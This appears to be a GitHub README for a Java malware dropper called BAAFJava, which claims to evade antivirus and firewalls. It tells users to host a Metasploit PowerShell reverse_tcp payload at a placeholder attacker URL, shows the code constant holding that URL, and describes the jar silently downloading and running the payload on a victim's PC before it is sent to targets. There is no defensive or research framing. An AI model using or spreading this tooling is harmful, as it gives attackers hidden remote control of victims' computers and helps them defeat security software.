 # BAAFJava
Bypass Any Antivirus Firewall
Metasploit powershell exec in java, bypass any antivirus. 

Bypass any anti-virus with powershell payload,
this shit get the txt uploaded powershell and insta-execute on the victim pc,

	-> u can create the powershell reverse_tcp payload script on the metasploit framework
	windows/meterpreter/powershell_reverse_tcp.txt 
	 Script dont open the cmd console
	 Created by Gabriell H. Foda-se Use por sua responsabilidade!
	 ______________________________________________________________________________
	 
	private static final String HTTP = "http://xxx.xxx.xx.xx.xx:8080/xxx.txt";
                              You need to change this url /\ /\ /\
	
And export jar file and send it. Be fun.

Bitcoins Donate: 1EL1d6vdiKHSinkDf6z8RwVBCcg8s1me8J
	
